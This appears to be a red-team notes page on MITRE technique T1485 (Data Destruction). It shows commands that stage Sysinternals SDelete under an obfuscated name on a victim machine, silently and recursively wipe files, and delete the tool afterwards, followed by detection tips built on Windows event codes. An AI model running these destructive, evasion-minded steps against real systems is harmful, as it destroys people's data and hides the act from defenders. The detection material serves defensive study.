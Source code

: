 # [Data Destruction](https://attack.mitre.org/techniques/T1485/)

## **Exploit syntax:**

1. Stage sysinternals `SDelete` on the victim box
	```powershell 
	upload-file
	```
	> **NOTE:** Upload `SDelete` with a diffrent file name for obfuscation

2. Use `SDelete` to remove any files
	```powershell
	sharpps <location of staged file on box> <location of file to be deleted/file to be deleted> -s -q -p 5 -accepteula
	# Deletes folders and all subdirectories(-s), suppresses any error messages(-q), runs operation in 5 phases(-p #) 
	```

3. To remove the `SDelete.exe`, you can use:

	```
	posh-delete
	```

---

## **Detection Technique:**
* Use windows event codes that have to do with file manipulation/deletion 
	> **NOTE:** The exploit above, doesn't generate these events
	* 4660 and 4663
* Monitor commands for usage of sysinternals "sdelete" 	
	> **NOTE:** If you obfuscate the MSdelete file name, this will not show logs
* Monitor for new processes starting/ending. Event codes:
	* 1: Process create
	* 5: Process terminated
* When using 'posh-delete' monitor for event code:
	* 2: File creation time change

---
## **Resouces:** 
* https://docs.microsoft.com/en-us/sysinternals/downloads/sdelete
* https://www.ghacks.net/2017/11/14/delete-files-and-free-disk-space-securely-with-sdelete/